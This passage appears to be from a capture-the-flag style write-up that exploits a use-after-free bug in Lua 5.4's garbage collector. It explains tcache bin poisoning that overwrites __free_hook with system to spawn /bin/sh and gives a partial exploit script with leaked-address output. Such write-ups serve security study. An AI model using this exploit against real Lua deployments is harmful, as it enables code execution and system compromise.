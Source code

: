 Then, calculation of needed address is a simple math.

#### CVE trigger:

Lua 5.4 has automatic memory management with a few of garbage collection algorithms, that could be switched via call to 
Lua builtin function `collectgarbage`.

Use-after-free vulnerability occurs when garbage collector forced to change its mode while being collecting the garbage.

```Lua
collectgarbage("incremental", 10)

foo = setmetatable({}, {
    __gc = function()
        collectgarbage("generational")
    end
})
```

We abuse this vulnerability via _tcache bin poisoning attack_ and change the address of the next chunk in tcache bin.
Then allocate a chunk at `__free_hook` and write the address of `system` function in it.
And then, make some objects to contain `0x68732f6e69622f` (`"/bin/sh"`).
When this script is over, `free(object)` in garbage collecting process becomes `system("/bin/sh")`

#### Profit:

```Lua
-- start.text:0x3084
-- printf.got:0x230ED8

function addrof(v)
 local strrep = tostring(v)
 local i = string.find(strrep, '0x')
 if i == nil then
  error("Cannot obtain address of given value")
 end
 return tonumber(string.sub(strrep, i+2), 16)
end

function hex(v)
 return string.format("0x%x", v)
end

base = addrof(start) - 0x3084
print("[Lua]: base = " .. hex(base))

printf_plt = base + 0x230ED8 - 0x8
print("[Lua]: printf@plt = " .. hex(printf_plt))

_, printf = load({}, printf_plt)
print("[Lua]: printf = " .. hex(printf))

system = printf - $SYSTEM_OFFSET$
print("[Lua]: system = " .. hex(system))
free_hook = system + $FREE_HOOK_OFFSET$
print("[Lua]: __free_hook = " .. hex(free_hook))

collectgarbage("incremental", 10)

foo = setmetatable({}, { __gc = function() collectgarbage("generational") end })

for j = 1, 110 do
 foo = {free_hook}
```

[Lua]: printf@plt = 0x56208b430ed0
[Lua]: printf = 0x7fdc9ae87e40
[Lua]: system = 0x7fdc9ae72420
[Lua]: __free_hook = 0x7fdc9b2108e8